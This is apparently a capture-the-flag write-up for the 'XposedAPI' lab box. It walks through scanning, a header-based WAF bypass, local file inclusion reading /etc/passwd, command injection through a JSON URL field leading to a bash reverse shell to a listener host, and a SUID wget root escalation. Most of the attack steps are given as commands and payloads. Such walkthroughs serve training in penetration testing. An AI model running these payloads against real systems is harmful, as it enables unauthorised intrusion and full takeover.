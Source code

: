 # XposedAPI

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.134
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 22:46 +08
Nmap scan report for 192.168.183.134
Host is up (0.18s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
13337/tcp open  unknown
```

This box likely has some API exploitation, so we can start proxying traffic through Burp.&#x20;

### API --> RCE

Port 13337 shows some basic documentation for an API:

<figure><img src="../../../.gitbook/assets/image (97) (3).png" alt=""><figcaption></figcaption></figure>

The most interesting was the `/update` endpoint, which accepted a user-controlled URL and says it updates the application via a 'Linux Executable'. This might be vulnerable to RCE if we can chain commands to the end of the URL.&#x20;

But we didn't have a username yet. There's also a `/logs` endpoint:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Attempting to visit it results in a WAF blocking us:

```
$ curl http://192.168.183.134:13337/logs
WAF: Access Denied for this Host.
```

Since the application mentioned that this is meant to be open to `localhost` only, we can try appending the `X-Forwarded-For` header.&#x20;

```
$ curl http://192.168.183.134:13337/logs -H 'X-Forwarded-For: localhost'
Error! No file specified. Use file=/path/to/log/file to access log files.
```

This looks vulnerable to LFI, and it works!

{% code overflow="wrap" %}
```
$ curl http://192.168.183.134:13337/logs?file=/etc/passwd -H 'X-Forwarded-For: localhost
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```
{% endcode %}

There's a `clumsyadmin` user present, and this might be the user we need. Then, we can use the `/update` endpoint to send requests to our HTTP server:

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Since our parameters was being passed to a 'Linux Executable', I assumed that the URL parameter was not being properly sanitised (and is probably using `wget` or something).&#x20;

To test, I sent this JSON data:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; wget 192.168.45.184/hiiamrce"}
```

<figure><img src="../../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

This confirms we have RCE. We can get a reverse shell via this JSON object:

```json
{"user":"clumsyadmin","url":"http://192.168.45.184/hiiamssrf; bash -c 'bash -i >& /dev/tcp/192.168.45.184/21 0>&1'"}
```

<figure><img src="../../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Wget SUID Binary

I searched for SUID binaries on the machine, and found that `wget` was one of them:

```
clumsyadmin@xposedapi:~$ find / -perm -u=s -type f 2>/dev/null
<TRUNCATED>
/usr/bin/wget
<TRUNCATED>
```

Using this, we can get a `root` shell:

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
wget --use-askpass=$TF 0
```

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

